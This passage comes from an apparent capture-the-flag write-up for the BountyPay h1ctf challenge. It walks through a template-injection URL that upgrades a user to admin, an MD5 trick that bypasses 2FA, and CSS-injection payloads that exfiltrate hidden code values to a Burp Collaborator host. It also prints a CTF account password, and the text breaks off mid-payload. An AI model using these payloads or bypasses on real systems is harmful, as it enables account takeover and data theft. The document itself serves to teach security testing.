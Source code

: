 ```
so if we can set username value in here make call via function ```let t=$('input[name="username"]').val();$.get("/admin/upgrade?username="``` then sandra would be upgraded the template would accept array function which would allow you to load more than one templates the use would be 
to make this work we need this template should be one login page and second should be the tickets because here in tickets page as we can see that i have set avatar to  tab1 upgradeToAdmin  this would be used to call function upgradetoAdmin
{F853460}
 but we also need to set username of who is being upgraded so the url should look like https://staff.bountypay.h1ctf.com/?template[]=ticket&ticket_id=358&template[]=home&username=sandra.allison#tab1
where when we submit this report would trigger automatically tab1 then it would call upgrade  for sandra and she would become the admin
After becoming admin see get a admin tab where we get 
Marten credentials
```marten.mickos  h&H5wy2Lggj*kKn4OD&Ype```
{F853461}

# 7. Login to Martin account and bypass 2nd 2fa
{F853472}
As we logged into martin account we saw a 2fa carrying a challenge and a challenge answer last time we had a answer whose md5 was challenge so this time we have
challenge  but no pre answers with us
so the solution to pass this was to take challenge from hidden input field  calling it as A and  md5(A) and the resulting hash B that you will get it would now become the challenge and so your request be something like   
```
challenge=B&challenge_answer=A
```
 which bypasses 2fa and send us to a pay page 


# 8. Bypass payment 2fa via CSS Injection via ssrf to get the flag
{F853475}
After 2fa bypass we see the pay button active for 5th month of year 2020 but upon clcking it asks for to send a challenge and complete it so the challenge upon sending was making a request to a stylesheet so sending any else url the server would make a request to it so a bit later i realised that we can exfiltrate the data for the challenge answer via css injection by sending our css file which would fetch every character from value of challenge but there was a catch in this after sending a request to mywebsite/test.css which was A-Z,a-z,0-9
```
input[name=challenge][value^=A]) ~ * {
    background-image: url(burpcollaborator);
}
```
the request didnt came in burpcollaborator this indicated that input name was not challenge in the backend rather something else so i made some css files to get the name like 

```
input[name^=c] ~ * {
    background-image: url(burpcollaaborator/c);
}
```
so after making some fuzzing around it i was able to get name as code_1,code_2,code_3,code_4,code_5,code_6 but 7th value was not as code_7 maybe so did that via intruder as in video

so to get values  i made the final css for code1-6 values A-Z,a-z,0-9 
```
input[name^=code_1][value^=A] ~ * {
    background-image: url(https://burpcollaborator/code1/A);
}
input[name^=code_2][value^=A] ~ * {
    background-image: url(https://burpcollaborator/code2/A);
}
input[name^=code_3][value^=A] ~ * {
    background-image: url(https://burpcollaborator/code3/A);